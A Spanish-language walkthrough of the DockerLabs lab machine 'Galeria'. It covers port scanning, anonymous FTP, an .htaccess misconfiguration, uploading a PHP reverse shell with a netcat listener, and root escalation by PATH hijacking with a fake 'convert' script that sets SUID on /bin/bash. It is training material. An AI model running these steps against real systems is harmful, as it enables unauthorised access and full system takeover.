




# 🧠 **Informe de Pentesting – Máquina: Galeria**

### 💡 **Dificultad:** Fácil

### 🧩 **Plataforma:** DockerLabs

---


---

# 📝 **Descripción de la máquina**

La máquina **Galeria** es un entorno vulnerable enfocado en la explotación de servicios expuestos y malas configuraciones en servidores web y servicios FTP.
Durante el análisis se identifican vulnerabilidades relacionadas con:

* Acceso FTP anónimo.
* Subida insegura de archivos.
* Ejecución remota de código mediante archivos PHP.
* Escalada de privilegios a través de **Path Hijacking** en un binario ejecutado con privilegios elevados.

El laboratorio permite practicar técnicas fundamentales de reconocimiento, explotación web y escalada de privilegios en sistemas Linux.

---

# 🎯 **Objetivo**

El objetivo principal de la máquina es obtener acceso inicial al sistema mediante la explotación de un mecanismo inseguro de carga de archivos y posteriormente escalar privilegios hasta convertirse en el usuario **root**.

---

# ⚙️ **Despliegue de la máquina**

Se descarga el archivo comprimido de la máquina vulnerable y se despliega el contenedor Docker utilizando el script proporcionado por el laboratorio:

```bash
unzip backend.zip
sudo bash auto_deploy.sh backend.tar
```


---

# 📡 **Comprobación de conectividad**

Antes de iniciar el reconocimiento, verificamos que la máquina se encuentra activa y accesible en la red mediante una petición ICMP:

```bash
ping -c1 172.17.0.2
```

La respuesta confirma conectividad con el objetivo.


---

# 🔍 **Escaneo de Puertos**

Se realiza un escaneo completo de puertos TCP para identificar servicios expuestos en la máquina víctima:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts.txt
```

## 📌 Puertos detectados

* `21/tcp` → Servicio FTP
* `80/tcp` → Servicio HTTP


---

Posteriormente, se ejecuta un análisis más detallado para identificar versiones y configuraciones de los servicios encontrados:

```bash
nmap -sCV -p21,80 172.17.0.2 -oN target.txt
```

Durante este análisis se descubre que el servicio FTP permite autenticación mediante el usuario **Anonymous**, lo que significa que es posible acceder sin credenciales válidas.


---

# 🌐 Análisis del Servicio Web

Al acceder al servicio HTTP desde el navegador:

```text
http://172.17.0.2
```

se observa una página web dedicada a la visualización de imágenes y pinturas.


---

# 🧪 Fuzzing de Directorios

Con el objetivo de descubrir rutas ocultas y recursos adicionales, se realiza fuzzing utilizando Gobuster:

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20 -add-slash -b 403,404 -x .php,.html,.txt
```

## 📂 Directorios encontrados

* `/index.html`
* `/gallery`


---

Al acceder al directorio `/gallery`, se identifica un archivo llamado `handler.php`, el cual permite subir archivos al servidor.


---

# 📤 Vulnerabilidad de File Upload

El formulario identificado permite cargar archivos al servidor sin controles adecuados de validación.


---

# 📁 Enumeración del Servicio FTP

Se accede al servicio FTP utilizando el usuario anónimo:

```bash
ftp 172.17.0.2
```

Una vez autenticados, se enumeran los archivos disponibles:

```bash
ls -la
```

## 📌 Archivos encontrados

```text
-rw-r--r--    1 ftp      ftp           362 Mar 28 22:04 .htaccess
drwxr-xrwx    1 ftp      ftp          4096 Mar 30 06:44 ftp
-rw-r--r--    1 ftp      ftp        335070 Mar 27 22:57 image_1.jpg
-rw-r--r--    1 ftp      ftp        442122 Mar 27 22:57 image_2.jpg
-rw-r--r--    1 ftp      ftp        459934 Mar 27 22:57 image_3.jpg
-rw-r--r--    1 ftp      ftp        319652 Mar 27 22:57 image_4.jpg
-rw-r--r--    1 ftp      ftp        480742 Mar 27 22:57 image_5.jpg
-rw-r--r--    1 ftp      ftp        493404 Mar 27 22:57 image_6.jpg
-rw-r--r--    1 ftp      ftp        434472 Mar 27 22:57 image_7.jpg
```


---

# 📥 Descarga de Archivos para Análisis

Se descarga el contenido completo del servidor FTP para analizarlo localmente:

```bash
binary
prompt
mget *
```

### 📌 Explicación de los comandos

* `binary` → Activa el modo binario para evitar corrupción de archivos.
* `prompt` → Desactiva la confirmación interactiva por archivo.
* `mget *` → Descarga todos los archivos del directorio actual.


---

# 🔎 Análisis del archivo `.htaccess`

Al revisar el archivo `.htaccess`, se identifica una configuración insegura del servidor Apache.

El archivo indica al servidor que ciertos archivos con extensiones normalmente asociadas a imágenes (`.jpg`, `.png`) deben interpretarse como scripts PHP ejecutables.

Además, la configuración permite el listado de directorios, exponiendo el contenido del servidor web.

Esto confirma la posibilidad de ejecutar código PHP dentro del directorio de subida de archivos.


---

# 💣 Obtención de Acceso Inicial

Se crea una reverse shell en PHP utilizando el script público de PentestMonkey:

```text
https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
```

El archivo es renombrado como:

```text
revellshell.php
```

y posteriormente se sube mediante el formulario vulnerable.


---

Después de la subida, el archivo queda accesible desde:

```text
http://172.17.0.2/gallery/uploads/images/
```



---

# 🎧 Recepción de la Reverse Shell

En la máquina atacante se inicia un listener con Netcat:

```bash
sudo nc -lvnp 1234
```

Al ejecutar el archivo PHP desde el navegador, se obtiene acceso remoto al sistema.


---

# 🖥️ Tratamiento de TTY

Antes de continuar con la escalada de privilegios, es recomendable estabilizar la shell para evitar problemas de interacción con la terminal.

## 📌 Conversión a TTY interactiva

```bash
script /dev/null -c bash
```

Posteriormente:

```bash
Ctrl + Z
```

En la máquina atacante:

```bash
stty raw -echo; fg
```

Luego:

```bash
reset xterm
```

Finalmente:

```bash
export TERM=xterm
export BASH=bash
```

Con esto se obtiene una terminal completamente interactiva y estable.

---

# 🚀 Escalada de Privilegios

---

# 🔍 Paso 1: Enumeración y Descubrimiento de la Vulnerabilidad

Durante la fase de enumeración se revisan los privilegios sudo asignados al usuario actual:

```bash
sudo -l
```

Se descubre que el usuario `gallery` puede ejecutar el binario:

```text
/usr/local/bin/runme
```

como cualquier usuario, incluyendo `root`, sin necesidad de contraseña (`NOPASSWD`).

---

## ⚠️ Análisis del Binario Vulnerable

Al inspeccionar el contenido del binario o script:

```bash
cat /usr/local/bin/runme
```

se observa que realiza una llamada al comando:

```bash
convert
```

utilizando una **ruta relativa**.

### 📌 ¿Por qué es vulnerable?

El sistema buscará el binario `convert` utilizando las rutas definidas en la variable de entorno `$PATH`.

Si un atacante logra colocar un ejecutable malicioso llamado `convert` en una ruta prioritaria del PATH, el sistema ejecutará dicho archivo con privilegios elevados.

Esta técnica se conoce como:

## 🔥 Path Hijacking

---

# 🛠️ Paso 2: Estabilización del Entorno

Para trabajar cómodamente y manipular variables de entorno sin restricciones, se obtiene una shell más limpia e interactiva utilizando `nano`.

Desde `nano` se ejecuta:

```bash
reset; sh 1>&0 2>&0
```

Esto permite mejorar la interacción con la terminal y preparar el entorno para la explotación.

---

# 💥 Paso 3: Explotación mediante Path Hijacking

## 1️⃣ Creación del falso ejecutable

Se crea un archivo llamado `convert` dentro del directorio `/tmp`:

```bash
cd /tmp
nano convert
```

Contenido:

```bash
#!/bin/bash
chmod u+s /bin/bash
```

---

## 2️⃣ Asignación de permisos de ejecución

```bash
chmod +x convert
```

---

## 3️⃣ Modificación del PATH

Se modifica la variable de entorno para priorizar `/tmp`:

```bash
export PATH=/tmp:$PATH
```

---

## 4️⃣ Ejecución del binario vulnerable

```bash
sudo /usr/local/bin/runme
```

Cuando `runme` intenta ejecutar `convert`, encuentra primero el archivo malicioso ubicado en `/tmp`.

El script se ejecuta como `root` y asigna el bit SUID a `/bin/bash`.

---

## 5️⃣ Verificación del SUID

```bash
ls -la /bin/bash
```

Salida esperada:

```text
-rwsr-xr-x
```

La presencia de la letra `s` confirma que el binario posee permisos SUID.

---

## 6️⃣ Obtención de Shell Root

Finalmente se ejecuta:

```bash
bash -p
```

El parámetro `-p` evita que Bash descarte los privilegios SUID.

Como resultado, se obtiene acceso total al sistema como usuario **root**.







---
